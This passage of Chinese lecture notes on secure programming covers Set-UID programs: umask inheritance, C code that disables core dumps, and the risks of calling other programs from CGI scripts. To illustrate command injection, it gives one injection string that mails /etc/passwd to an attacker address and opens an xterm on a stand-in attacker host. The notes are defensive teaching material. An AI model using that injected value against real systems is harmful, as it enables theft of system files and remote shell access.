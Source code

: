 ## 2 进程属性

*   `umask`值

    *   它决定了新创建文件的默认权限
    *   子进程从它的父进程继承该值
    *   考虑这个场景：

        一个 Set-UID 程序在`/tmp/tempfile`保存临时数据。这个文件的完整性十分重要。如果程序员假设 umask 值为 077，假设可能不成立。攻击者可以从自己的 Shell 中运行这个程序，Set-UID 会从 Shell 继承这个 umask 值。

        如何防护它：显式设置 umask 值（使用`umask(077)`），或者显式设置新创建文件的权限（使用`chmod("newfile",0755)`。

*   内存转储

    *   如果你的程序保存了敏感数据，例如未加密的密码，你应该禁止程序的内核转储。
    *   如何禁用内和转储？

        ```
         #include <sys/time.h> 

        #include <sys/resource.h> 

        #include <unistd.h> 

        int main(int argc, char **argv) {
            struct rlimit   rlim;
            getrlimit(RLIMIT_CORE, &rlim);
            rlim.rlim_max = rlim.rlim_cur = 0;
            if (setrlimit(RLIMIT_CORE, &rlim)) {
                exit(-1);         
            }
            ...
            return 0;
        } 
        ```

    *   Solaris 默认（Solaris 8 开始）不允许 Set-UID 程序由于明显的安全原因的内核转储。

### 3 调用其它程序

*   安全地调用其它程序

    *   如果 CGI 脚本这样做，会有什么潜在的问题？

        ```
        // $Recipient contains email address provided by the user 
        //      using web forms. 
        system("/bin/mail", $Recipient); 
        ```

    *   `$Recipient`可能包含 Shell 的特殊字符（`| & < >`）（命令注入）。

        ```
        "attacker@hotmail.com < /etc/passwd; 
        export DISPLAY=proxy.attacker.org:0; /usr/X11R6/bin/xterm&;" 
        ```
